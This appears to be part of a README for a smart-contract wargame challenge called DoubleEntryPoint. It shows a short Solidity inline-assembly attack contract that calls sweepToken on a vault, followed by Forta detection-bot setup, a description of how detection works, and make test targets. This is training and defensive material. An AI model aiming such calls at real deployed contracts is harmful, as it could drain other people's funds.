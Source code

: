 ### 2. Assembly Attack (Educational)
```solidity
contract DoubleEntryPointAssemblyAttack {
    function assemblyExploit() external {
        assembly {
            let fmp := mload(0x40)
            
            // Construct sweepToken(address) call
            mstore(fmp, 0x6ea056a900000000000000000000000000000000000000000000000000000000)
            mstore(add(fmp, 0x04), sload(legacyToken.slot))
            
            // Execute the attack
            let success := call(gas(), sload(vault.slot), 0, fmp, 0x24, 0, 0)
            if iszero(success) { revert(0, 0) }
        }
    }
}
```

---

## 🛡 Defense Implementation

### Setting Up the Detection Bot

```solidity
// Deploy the detection bot
DoubleEntryPointFortaBot bot = new DoubleEntryPointFortaBot(forta, vault);

// Register it with Forta for the player
forta.setDetectionBot(address(bot));

// Now attacks will be detected and prevented!
```

### How Detection Works

1. **Transaction Monitoring:** Forta calls the detection bot for every transaction
2. **Assembly Analysis:** Bot parses calldata to identify `delegateTransfer` calls
3. **Attack Detection:** Checks if `origSender` parameter equals vault address
4. **Prevention:** Raises alert causing transaction to revert

---

## 🧪 Testing & Validation

### Running Tests
```bash
# Test the challenge
make test-doubleentrypoint

# Test with verbose output
make test-doubleentrypoint-verbose

# Test assembly attack specifically
make test-doubleentrypoint-assembly

# Test detection bot functionality
make test-doubleentrypoint-detection
```
